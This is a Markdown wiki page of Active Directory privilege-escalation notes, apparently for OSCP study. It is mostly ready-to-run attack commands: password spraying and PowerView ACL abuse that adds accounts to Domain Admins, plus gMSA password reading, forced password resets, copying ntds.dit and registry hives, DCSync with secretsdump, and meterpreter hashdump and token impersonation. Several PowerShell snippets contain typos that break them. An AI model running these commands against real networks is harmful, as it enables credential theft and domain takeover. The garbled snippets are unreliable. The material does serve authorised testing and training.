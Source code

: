 # Active Directory Privilege Escalation
For exploitation see [[AD-Exploitation-Hub]] or general theory and definitions [[Active-Directory-Defined]]. For commands cheatsheet [[Active-Directory-Commands]] or for enumeration see [[Active-Directory-Enumeration-Defined]]. [[Network-Protocols-Cheatsheet]] are used extensive, especially [[DNS-Defined]] in AD networks.

THIS VERY WORK IN PROGRESS! AND VERY EARLY THERE ARE BETTER ELSEWHERE

## Scripts
[ADAPE](https://github.com/hausec/ADAPE-Script)

## Tooling

#### Recon Tools

- **DNS**
For more about [[DNS-Defined]], for enumeration for DNS see both 
[[DNS-Recon-Active]] and [[DNS-Recon-Passive]].
- **SMB**
See [SMB tool](SMB-Recon-Cheatsheet.md) and [[RPCClient-Cheatsheet]]
You want to target the subnet and then as you laterally move through the network the Adminstrators and DCs. `crackmapexec smb $IP -u users.txt -p passes.txt`
- **LDAP**
[[LDAP-Recon]]

#### Box Enumeration
[[Active-Directory-Enumeration-Cheatsheet]] and [[Active-Directory-Enumeration-Defined]] 
[[Windows-Privilege-Escalation-Vectors]] maybe required! 

[Flangvik/SharpCollection](https://github.com/Flangvik/SharpCollection) is  a github repose that contains ..*"
Nightly builds of common C# offensive tools, fresh from their respective master branches built and released in a CDI fashion using Azure DevOps release pipelines."* 

#### AMSI Bypassing
[[AMSI-Exploitation]] and [[AMSI-Bypassing]]

#### Exploitation Tools
[[Impacket-Cheatsheet]]
[[Kerbrute-Cheatsheet]]
[[Crackmapexec-Cheatsheet]]
[[Rubeus-Cheatsheet]] 
[[Seatbelt-Helpsheet]]
[[Mimikatz-Cheatsheet]]
[[Kekeo-Cheatsheet]]

#### C2s
[[C2-Matrix]]
[[Empire]] - Empire and Starkiller


#### Powerview
PowerView *is a powershell tool to gain network situational awareness one Windows domains."* For a good concatenation of all the [[Powerview-Cheatsheet]] see follow the link.[Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1). Due to AD commands are a restricted to DCs and some(times) Adminstrators. Get PowerView on the box, you need some help. Below are some the commands in the cheatsheet but scenarios included
```powershell
. .\PowerView.ps1				# import PowerView
Import-Module PowerView.ps1		# Use this it is better	
Get-NetDomain					# Like ADDomain but lists less information
Get-NetDomainController				# List all Domain Controller
Get-NetForest					# like AdForest
Get-NetDomainTrust				# like NetDomainTrust

# ACL Abuse
ForceChangePassword use Set-DomainUserPassword
AddMembers use Add-DomainGroupMember
GenericAll use Set-DomainUserPassword or Add-DomainGroupMember or a New-MachineAccount
GenericWrite use Set-DomainObject
WriteOwner use Set-DomainObject
WriteDACL use Add-DomainObjectACL
AllExtendedRights use Set-DomainUserPassword or Add-DomainGroupMember


Find-InterestingDomainShareFile
-CheckAccess
*password*
*sensitive*
*admin*
*login*
*secret*
*unattend*.xml
*vmdk
*creds*
*credential*
*.config
```

#### Bloodhound and Sharphound
Mapping out the Domain and its properties is key to mental digesting the interconnected system of systems, abstract and physical see: [[Bloodhound-Guide]].

- Mark users as owned helps with speed in recursive lookups and visual clutter 
- Unroll group Membership in Bloodhound



## Users and Groups
[[Active-Directory-Default-Security-Groups-Table]] also contains addition pwnables possiblities.
```powershell
net user $user $password /add /domain
net group "$groupname" /add $user

# LAPs group can read passwords
Get-ADComputer -Filter 'ObjectClass -eq "computer"' -Property *
# Password is in output or Kali lapsdumper
```

`whoami /all` check for [[SePrivilege-Token-Table]]:
For [[SeBackup-Privilege]] can run `robocopy` against any file even when lack permissions. For OSCP proofing and for non CTFs best use of robocopy the NTDSs.dit, system and sam files exfiltrate out, `secretsdump` from [[Impacket-Cheatsheet]], crack or [[Pass-The-Hash]] and elevate. Or you could copy the entire Hive
```powershell
robocopy /b C:\Windows\NTDS\ntds.dit
robocopy /b C:\Windows\System32\config\SYSTEM
robocopy /b C:\Windows\System32\config\SECURITY
```


ReadGMSAPassword
```powershell
$gmsa = Get-ADServiceAccount -Identity $username-of-target-account -Properties 'msds-managedpassword'
$mp = $gmsa.'msds-managedpassword'
$convmp = ConvertFrom-ADManagedPasswordBlob $mp
$passwd = $convmp.'currentpassword'
# Some default groups have $ at the end! Also the $user variable is easier later steps
$user = '$username-of-target'
$secpass = ConvertTo-SecureString $passwd -AsPlainText -Force
$cred = Net-Object System-Managemt.automation.pscredential $user,$secpass
```


GenricAll Permission
```powershell
# $cred is the user with generic write
$user = '$username-with-generic-write'
$pass = ConvertTo-SecureString 'yourpasswordgoeshere' -AsPlainText -Force
$cred = Net-Object System-Managemt.automation.pscredential $user,$pass
# Run a command on remote box, but we are using another users credentials
Invoke-Command -computername 127.0.0.1 -ScriptBlock {Set-AdAccountPassword -Identity $targetuser -reset -NewPassword (ConvertTo-SecureString -AsPlainText 'Password123!' -Force)} -Credential $cred 
```
Then Wmi remote in with [[Impacket-Cheatsheet]]
```bash
impacket-wmiexec.py '$domain/$user:$password@domain.local'
```

ForceChangePassword - Bloodhound and [[Powerview-Cheatsheet]]
```powershell
$newpass = ConvertTo-SecureString 'yourpasswordgoeshere' -AsPlainText -Force
# Powerview command
Set-DomainUserPassword - Identity $target -AccountPassword $newPass
```

GenericWrite - [[Powerview-Cheatsheet]]
```powershell
# Without Bloodhound
Import-PowerView.ps1
Invoke-ACLScanner -ResolveGUIDs | ? {$_.identityreferncename -like '$target$'}
Set-DomainObjectOwner -identity 'Domain Admins' -OwnerIdentity $target
Add-DomainObjectAcl -TargetIdentity 'Domain Admins' -PrincipalIdentity $target -Rights all
Add-DomainGroupMember -Idetnity  'Domain Admins' -Members $target
# Log off and on to affect change
```


Account Operators/Write DACL - [[AMSI-Exploitation]]
[[Powerview-Cheatsheet]], [[Evil-winrm-Cheatsheet]] and [[Impacket-Cheatsheet]] or  [[Crackmapexec-Cheatsheet]]
```powershell
# Account Operators can create and modify non-protected users and groups
# Find one - Non-Protect != Protected, but more privileged the better
net user $user $password /add /domain
net group "$Non-Protected-Group" $user /add
net localgroup "Remote Managment Users" $user /add # For Remoting
Bypass-4MSI # Evil-Winrm
# Dump creds with DC-SYNCing and secretsdumps
```
[[AD-DC-Sync-Attack]] 

GetChangesAll/Replication - PrivEsc with [[AD-DC-Sync-Attack]] with [[Impacket-Cheatsheet]]
```bash
secretsdump -just-dc $domain/$user@$DC-ip
# For just ntlms 
-just-dc-ntlm 
```



## Services

If SPN misconfigured Privileges using combinations of [[Active-Directory-Lateral-Movement]] and [[AD-Kerberos-Delegation-Exploitation]].
```powershell
setspn -T medin -Q  */*        # extract all accounts in the SPN - service principle name - service and account mapping
```


## Appendix

#### Metasploit and Proxychains

Metasploit combined with proxychains can used to pivot and access segmented sections of network.
The shells create route through then inaccessable parts of the network can be mapped beyond the shell's address.
To proxy through the network see sections on [[Proxies]] and [[Pivoting-and-Proxying-with-Metasploit]] 

Due to Trusts, pivoting in required to hop to the connection between Domains. 
Trust can be: 
1. Directional - The direction of the trusts flows from a trusting domain to a trusted domain.
1. Transitive - The trust relationship expands beyond just two domains to include other trusted domains.

If inclined meterpreter and its commands:
```meterpreter
migrate 	# Don't forget to migrate to better processes as processes die: lsass.exe
hashdump

use incognito
list_token -u
impersonate_token $TOKEN
```


## References

[10 AD PrivEsc Concepts You MUST Know for Mastering OSCP](https://www.youtube.com/watch?v=xowytiyooBk)
[Snovvcrahs ACL-abuse](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/acl-abuse)
[iredteam](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse)